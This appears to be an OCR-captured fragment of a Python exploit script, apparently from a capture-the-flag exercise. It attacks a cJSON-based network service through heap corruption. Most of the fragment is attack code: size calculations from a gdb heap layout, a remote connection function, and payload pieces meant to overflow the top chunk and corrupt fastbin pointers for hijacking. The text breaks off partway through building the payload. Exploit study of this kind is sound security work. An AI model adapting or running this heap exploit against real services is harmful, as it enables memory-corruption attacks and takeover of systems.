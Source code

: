 ```python
    remain_chunk_length = lambda x: (x & 0x0f) // (8 + 1) * 0x10

    string_len = lambda n: 2 * n + message_len # 1,1,
    calc = lambda n: 0x50 * n + align_up_0x10(string_len(n)) + remain_chunk_length(string_len(n))

    for i in range(0, 0x1000):
        size = calc(i)
        if size < required_size:
            continue
        elif size == required_size:
            return (i, 0, 0)
        else:
            # breakpoint()
            return (i - 1, -1, calc(i - 1))
    else:
        raise Exception("required size too big")

def generate_array_payload(required_size, message_len):
    '''
 gdb-peda$ parseheap
 addr      ... size ...
 0x1cf0000 ... 0x?? ...    strlen(http_message) // 
 0x1cf0090 ... 0x50 ...    cJSON_Object root 
 0x1cf00e0 ... 0x50 ...    cJSON_String data string
 0x1cf0130 ... 0x20 ...    strlen("data")
 0x1cf0150 ... 0x60 ...    strlen(data string)
 0x1cf01b0 ... 0x50 ...    cJSON_String  timestamp
 0x1cf0200 ... 0x20 ...    strlen("timestamp")
 0x1cf0220 ... 0x50 ...    cJSON_Array timestamp
 0x1cf0270 ... 0x20 ...    strlen("timestamp")
 '''
    # breakpoint()
    N, ret, calc_size = calc_array_pair_cnt(required_size, message_len)
    payload = b'1,' * N # 0x50 chunk
    # payload = payload.rstrip(b",")
    if ret == -1:
        payload += b'\x01' * (required_size - calc_size)
    # print("required_size {:#x} message_len {:#x} N {:#x} payload_len {:#x}".format(required_size, message_len, N, len(payload)))
    # print(b"payload: %b" % payload)
    return payload

def exp(host, port):
    io = remote(host, port, timeout = 9999)

    json_template = b'''
 {"data":"BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ","timestamp":61866,"timestamp":\x11[%b]}
 '''.strip()
    # print(json_template, len(json_template) - 2)
    template_len = len(json_template) - 2 + 1 # 2: %b, 1: content_length + 1
    top_chunk_size = 0x20e00 + 0x2000 # why 0x2000?

    raw_len = lambda x: len(get_raw_payload(x))

    # array_payload|overflow_old_top_chunk_payload|free_old_top_chunk_payload|overflow_new_top_chunk_payload|free_new_top_chunk_payload|overflow_fastbin_fd_payload|dummy_alloc_payload|hijack_payload

    overflow_old_top_chunk_payload =  b'"aaaaaaaaaaaaa\u"   '
    overflow_old_top_chunk_payload += b'0' * 8 # prev_size of old top_chunk
    overflow_old_top_chunk_payload += p16(0x41) # 0x1041 -> 0x41
    overflow_old_top_chunk_payload += b'"'
    overflow_old_top_chunk_payload += b',' # not end
```